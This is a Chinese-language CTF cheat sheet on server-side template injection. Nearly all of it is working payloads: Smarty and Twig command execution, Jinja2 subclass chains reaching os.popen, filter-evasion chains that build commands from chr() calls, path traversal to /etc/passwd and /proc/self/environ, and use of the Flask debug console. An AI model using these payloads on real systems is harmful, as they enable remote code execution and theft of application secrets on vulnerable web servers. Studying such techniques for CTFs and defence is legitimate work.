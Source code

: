 # SSTI

![Alt text](../../public/imgs/ssti.png)

[hideandseek](https://www.baidu.com/s?wd=hctf2018+hideandseek)

linux service 越权
非预期 unicode 绕过

### ssti smarty

`[BJDCTF2020]The mystery of ip`
`[CISCN2019 华东南赛区]Web11`

```
{if phpinfo()}{/if}
{if system('ls')}{/if}
{ readfile('/flag') }
{if show_source('/flag')}{/if}
{if system('cat /flag')}{/if} #本题payload
{if system('cat ../../../flag')}{/if} #本题payload
X-Forwarded-For: {{system("ls")}}
X-Forwarded-For: {{system("cat /flag")}} #本题payload
```

### ssti 服务器模板注入 twig

```
user={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

### ssti 服务器模板注入 jinja2 - payload

```py
{{url_for['__glob'~'als__']}}
{{url_for['__glob'~'als__']['__built'~'ins__']['eval']("next(open('/flag'))")}}
{{url_for['__glob'~'als__']['os']['popen']("cat *")['read']()}}
```

### ssti 服务器模板注入 jinja2


`buuoj [RootersCTF2019]l_<3_Flask`

[[WesternCTF2018]shrine](https://www.cnblogs.com/Cl0ud/p/12316287.html)

    {{self.__dict__}}
    {{url_for.__globals__['current_app'].config}}
    {{get_flashed_messages.__globals__['current_app'].config}}

[pasecactf_2019_flask_ssti](https://guokeya.github.io/post/zIiwsY95N/)

内置函数 `print(help(dir(__builtins__)))`

ssti 方式

```
?flag={{config.SECRET_KEY}}
/hello?name={{7*7}}
/hello?name={{config}}

原题目通过lfi, 文件穿越
/downloadj?image=1.jpg
/downloadj?image=../../../../../../../etc/passwd/

查看程序环境变量
/downloadj?image=../../../../../../../proc/self/environ
看到secret_key
```

### PIN 码

debug 开启 才有 PIN 码问题

```html
{{...}}报错
```

得到，PIN 码怎样访问？

```html
name={{...}} 看报错信息，
```

找一行，点右边的 terminal 图标，输入 PIN 码。进入 console。

```python
## console中执行
import os
os.system('ls') # 并没有得到返回输出全部内容，返回了0.只得到返回值
os.popen('ls').read() # 得到了结果。
os.popen('ls /').read()
os.popen('ls /app').read() # 发现 flag
os.popen('cat /app/flag').read()
## 也可以写个反向shell，拿到更多权限。
```

### ssti 注入

测试

<pre>/hello?name=

{% for i in range(10) %}

{% print(i) %}

{% endfor %}

</pre>

输出了结果，说明有漏洞

```python
/hello?name={{config.__class__.__init__.__globals__['os'].popen('cat ../app/flag').read()}}
/hello?name={{"".__class__}} 返回str
/hello?name={{"".__class__.__base__}}
/hello?name={{"".__class__.__base__.__subclasses__()}}
/hello?name={{"".__class__.__base__.__subclasses__()[302]}} # popen
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("ls").read()}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("ls /").read()}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("ls /app").read()}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("cat /app/flag").read()}}
[].__class__.__base__.__subclasses__()[58].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag.txt').read()")
# python2 input漏洞
__import__('os').popen('cat /flag.txt').read()
### appconfig
__class__.__init__.__globals__[app].config
?err=pfn&back={0.__class__.__init__.__globals__}   # 等于 pnf.__class__.__init__.__globals__
```

方式 2

```py
# 读取app.py  -- [GYCTF2020]FlaskApp
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read()}}{% endif %}{% endfor %}
# 读目录 ls/
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}
# 拼接大法
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}{% endif %}{% endfor %}
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/this_is_the_fl'+'ag.txt','r').read()}}{% endif %}{% endfor %}
```

生产环境不要开 debug 模式

### ssti 注入\_tornado

[2018 护网杯 easy_tornado(BUUCTF 提供复现)](https://blog.csdn.net/zz_Caleb/article/details/101473013)

那么 tornado 中的 cookie 通过 handler.settings 对象

handler 指向 RequestHandler
而 RequestHandler.settings 又指向 self.application.settings
所有 handler.settings 就指向 RequestHandler.application.settings 了！

传递 error?msg={{ handler.settings }}得到：

'cookie_secret': 'b8e09977-6541-498b-9a30-08e3118b6e60'}

filehash: md5(cookie_secret+md5(filename))

## GDOUCTF 2023 ez_ze

[SSTI 绕过 | [GDOUCTF 2023]<ez_ze>](https://www.nssctf.cn/problem/3745) [参考文章](https://zhuanlan.zhihu.com/p/619441473)

可用 payload：

```python
{%set fza1=dict(po=a,p=b)|join%}
{%set res=(lipsum|string|list)|attr(fza1)(24)%}
{%set fza2=(res,res,dict(globa=a,ls=b)|join,res,res)|join%}
{%set fza3=dict(o=a,s=b)|join%}
{%set fza4=dict(pope=a,n=b)|join%}
{%set fza5=dict(get=a)|join%}
{%set fza6=(res,res,dict(builtins=a)|join,res,res)|join %}
{%set fza7=dict(chr=a)|join%}
{%set char=(lipsum|attr(fza2))|attr(fza5)(fza6)|attr(fza5)(fza7)%}
{%set command=char(99)%2bchar(97)%2bchar(116)%2bchar(32)%2bchar(47)%2bchar(102)%2bchar(108)%2bchar(97)%2bchar(103)%}
{%set re=dict(rea=a,d=b)|join%}
{%set fuck=(lipsum|attr(fza2))|attr(fza5)(fza3)|attr(fza4)(command)|attr(re)()%}
{%print fuck%}
```

